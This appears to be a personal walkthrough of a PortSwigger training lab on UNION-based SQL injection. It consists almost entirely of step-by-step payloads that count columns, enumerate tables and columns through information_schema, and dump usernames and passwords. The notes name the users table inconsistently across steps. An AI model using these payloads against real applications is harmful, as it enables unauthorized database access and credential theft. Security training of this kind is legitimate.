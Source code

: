 This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

(1) Determine number of columns
' ORDER BY 1--
' ORDER BY 2--

'UNION SELECT NULL, NULL--

(2) types of data
we can see from
'UNION SELECT 'a', 'b'--
that it holds text

(3) get table name
'UNION SELECT table_name, NULL FROM information_schema.tables--

(4) get column name
https://ac8e1f961f8c2dedc08c010a00b80036.web-security-academy.net/filter?category=Gifts%27+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name=%27users_qlvwvo%27--

Column: username_pmppme
Password Column:
password_tkgaxy
'UNION SELECT username_pmppme, password_tkgaxy FROM users_tkgaxy--

(5) Get password 
'UNION SELECT username_pmppme,password_tkgaxy FROM users_tkgaxy--
